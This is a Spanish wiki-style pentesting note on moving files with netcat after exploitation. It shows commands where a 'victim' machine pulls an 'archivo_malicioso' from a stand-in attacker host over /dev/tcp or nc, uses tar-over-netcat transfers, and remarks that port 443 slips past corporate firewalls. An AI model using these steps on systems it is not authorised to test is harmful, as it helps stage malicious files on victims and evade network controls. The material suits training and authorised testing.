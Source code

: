 # 📂 Transferencia de Archivos con Netcat

## 🔄 Transferencia de Archivos entre Máquinas

> [!tip] Escenario
> Esta técnica es especialmente útil en pruebas de penetración o situaciones donde se necesita transferir archivos entre sistemas cuando otras herramientas como SCP, FTP o HTTP no están disponibles.

Netcat (nc) proporciona un método rápido y versátil para transferir archivos a través de conexiones TCP, funcionando en prácticamente cualquier sistema operativo con una implementación de netcat.

## 🚀 Proceso de Transferencia

### En la máquina atacante (remitente)

```bash
# Escuchar en el puerto 443 y enviar el contenido del archivo
nc -nlvp 443 < archivo_malicioso
```

> [!info] Parámetros explicados
> - `-n`: No realizar resolución DNS
> - `-l`: Modo de escucha
> - `-v`: Modo verboso (muestra detalles de la conexión)
> - `-p 443`: Especifica el puerto de escucha (443)

### En la máquina víctima (receptora)

```bash
cat < /dev/tcp/ip_atacante/443 > archivo_malicioso
```

> [!note] Alternativa
> También se puede usar netcat en la máquina receptora:
> ```bash
> nc ip_atacante 443 > archivo_malicioso
> ```

## ✅ Verificación de Integridad

Para garantizar que el archivo se transfirió correctamente sin corrupción, podemos utilizar [[md5sum]] para verificar la integridad:

### En ambas máquinas (atacante y víctima)

```bash
md5sum archivo_malicioso
```

> [!success] Transferencia exitosa
> Si los hashes MD5 coinciden en ambos extremos, la transferencia se completó sin errores.

## 🛡️ Consideraciones de Seguridad

> [!warning] Advertencia
> - Esta transferencia **no está cifrada** - cualquiera que monitoree la red puede interceptar el archivo
> - Para transferencias seguras, considere tunelizar a través de SSH o usar herramientas como `scp`
> - Los puertos comunes como 443 suelen tener menos restricciones en firewalls corporativos

## 🔍 Casos de Uso Adicionales

### Transferencia de directorios completos

```bash
# En la máquina atacante
tar -czf - /ruta/directorio | nc -nlvp 443

# En la máquina víctima
nc ip_atacante 443 | tar -xzf -
```

### Transferencia bidireccional (chat simple)

```bash
# En la máquina A
nc -nlvp 443

# En la máquina B
nc ip_maquina_a 443
```

---

## 🔗 Recursos Relacionados

- [[md5sum]]

#hacking #transferencia_archivos #netcat #post_explotacion #redes

---

[[apuntes/Wiki/wiki]]